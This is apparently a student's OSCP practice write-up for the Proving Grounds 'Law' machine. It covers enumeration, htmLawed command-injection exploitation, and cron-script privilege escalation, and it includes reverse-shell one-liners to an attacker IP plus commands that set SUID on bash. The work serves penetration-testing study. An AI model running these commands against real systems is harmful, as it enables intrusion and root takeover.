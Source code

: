 ```yaml
---
Date: 2024-11-10
Course: "[[OSCP]]"
Platform: PG-Practice
Category: Linux
Difficulty: Intermediate
Status: Complete
IP: 192.168.201.190
Writeup: https://medium.com/@ardian.danny/oscp-practice-series-47-proving-grounds-law-c2966e3ab8ba
---
```

# Law
This one was another absolute slog. Identifying exploits for htmLawed v1.2.5 was very straightforward, and I got a little excited when I saw an RCE exploit had been found this year (2024). 

Running the exploit didn't work though, so I started researching the vulnerability further while trying to avoid the walkthroughs. I found the [Mayfly article on the CVE](https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/) which added a lot of extra context, and checking the walkthrough helped me realise why the Burpsuite request wasn't working properly (the request was to a non-existent page, and needed to be changed to `/`). 

Even with that though, it still look a remarkably long time to get the reverse shell setup - running BurpSuite `intercept` and modifying the request *BEFORE* it went to the target was the trick, rather than trying to use `repeater` to modify requests already sent.

With a dumb shell established, it was a surprise to lose it the moment I tried to use python to upgrade to a bash shell - going forward I might run `/usr/bin/script -qc /bin/bash /dev/null` first as it's more likely to give me the shell I'm after without breaking things.

PrivEsc turned out to be easier and more complicated than expected. Easier in that the `cleanup.sh` script was identified as interesting early on, but harder than expected when it came to testing the shell to see who was running it, and then how to modify it further when it came to switching to root - all of which I leaned on the walkthrough for. Adding the `curl` command was one step, but using `nc` to send the `id` to the listening port was very cool and clever. Changing the bash permissions was genius too, so definitely need to keep that set of commands handy for the next time there's a user script being run regularly by `root`.

# Resolution summary
- Ran Nmap to identify ports `22` & `80`
- Visited http (`80`) & identified htmLawed v1.2.5
- Researched vulnerability and attempted manual exploit
- Used Burpsuite to fix error with request and achieved reverse shell
- Identified script owned by `www-data` user but being regularly run by `root`
- Added command to change permissions to `/bin/bash`
- Used `bash -p` to switch to `root`
## Improved skills
- Burpsuite forwarding and request modification
- Identifying user scripts being regularly run by `root`
## Used tools
- nmap
- gobuster
- burpsuite
- python3

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sC -sV -oN Law.nmap 192.168.201.190 -v
```

Enumerated open TCP ports:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: htmLawed (1.2.5) test
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---
# Enumeration
## Port 22 - SSH (OpenSSH 7.9p1)
No enumeration conducted
## Port 80 - HTTP (Apache)
- Navigated to `http://192.168.201.190:80` and identified `htmLawed v1.2.5`
![[Cybersecurity-Resources/images/Pasted image 20241010160126.png]]
	- `htmLawed v1.2.5` is vulnerable to command injection [CVE-202-35914](https://nvd.nist.gov/vuln/detail/cve-2022-35914)
- Ran `gobuster dir -u http://192.168.201.190 -w /usr/share/dirb/wordlists/big.txt` to identify any web directories
![[Cybersecurity-Resources/images/Pasted image 20241010160311.png]]
- Ran `gobuster dir -u http://192.168.201.190 -w /usr/share/dirb/wordlists/big.txt -x php,html,htm,txt` to identify any files
![[Cybersecurity-Resources/images/Pasted image 20241010162339.png]]

---
# Exploitation
## Command Injection
- Found potential exploit `52023` on [ExploitDB](https://www.exploit-db.com/exploits/52023)
- Copied exploit and ran `./52023.sh -u http://192.168.201.190 -c id` for no output
![[Cybersecurity-Resources/images/Pasted image 20241010162723.png]]
- [Further investigated vulnerability](https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/) and found it might be executed from the target website by changing `hook` in settings to `exec` with `id` to test command execution
![[Cybersecurity-Resources/images/Pasted image 20241010163008.png]]
- Processed request and recieved `404 Not Found`
![[Cybersecurity-Resources/images/Pasted image 20241010163050.png]]
- Checked `BurpSuite` proxy history and found request was going to `htmLawedTest.php`.
![[Cybersecurity-Resources/images/Pasted image 20241010163218.png]]
- Sent request to `repeater` and modified POST request from `/htmLawedTest.php` to `/` then resent request with `id` and hook set to `exec`
![[Cybersecurity-Resources/images/Pasted image 20241010163728.png]]
- Ran `nc -nvlp 4444` to setup Netcat listener, then replaced `id` with `/bin/sh -i >& /dev/tcp/192.168.45.215/4444 0>&1` to attempt reverse shell
![[Cybersecurity-Resources/images/Pasted image 20241010170213.png]]
- Reattempted with `nc 192.168.45.215 4444 -e /bin/sh` and successfully caught reverse shell for initial access
![[Cybersecurity-Resources/images/Pasted image 20241010170324.png]]
---
# Lateral Movement to user
## Local Enumeration
- Attempted to use `python3` to upgrade shell but broke reverse shell and had to restart netcat listener
![[Cybersecurity-Resources/images/Pasted image 20241010171239.png]]
- Repeated earlier steps to restablish initial access, then checked for python to find it's not installed. Ran `/usr/bin/script -qc /bin/bash /dev/null` instead to achieve full shell, then navigated to home directory of `www-data` user to print `local.txt`
![[Cybersecurity-Resources/images/Pasted image 20241010171555.png]]
- Ran `find / -perm -u=s -type f 2>/dev/null -printf "%f\n"` to find binaries with potential SUID bit set
![[Cybersecurity-Resources/images/Pasted image 20241010171912.png]]

---
# Privilege Escalation
## Local Enumeration
- Ran `cat /etc/passwd` to identify any other users
![[Cybersecurity-Resources/images/Pasted image 20241010171727.png]]
- Uploaded and ran `suider.sh` to find potential SUID exploits
![[Cybersecurity-Resources/images/Pasted image 20241010173058.png]]
- Uploaded and ran `linpeas.sh` to find potential Privilege Escalations
![[Cybersecurity-Resources/images/Pasted image 20241010180027.png]]
- Found `cleanup.sh` in `www-data` home directory
![[Cybersecurity-Resources/images/Pasted image 20241010175915.png]]
- Ran `cat /var/www/cleanup.sh` to view `cleanup.sh`
![[Cybersecurity-Resources/images/Pasted image 20241010180145.png]]
## Privilege Escalation vector
- Ran `nc -nvlp 8081` to setup netcat listener on 8081, then ran `echo 'id | nc 192.168.45.215 8081' >> cleanup.sh` to identify `cleanup.sh` is being regularly executed by `root`
![[Cybersecurity-Resources/images/Pasted image 20241010182437.png]]
- Ran `echo "chmod +s /bin/bash" >> cleanup.sh` to use `root` to change `/bin/bash` permissions, and ran `bash -p` until `cleanup.sh` was executed by `root` and user switched to `root`
![[Cybersecurity-Resources/images/Pasted image 20241010183151.png]]
- Ran `cat /root/proof.txt` to print `proof.txt` flag
![[Cybersecurity-Resources/images/Pasted image 20241010183300.png]]
---
# Trophy & Loot
`local.txt` = `e4dc76bd63849b739fd9741f9bda6995`
`root.txt` = `b9d98ca2768e55aba770c7fb1f730323`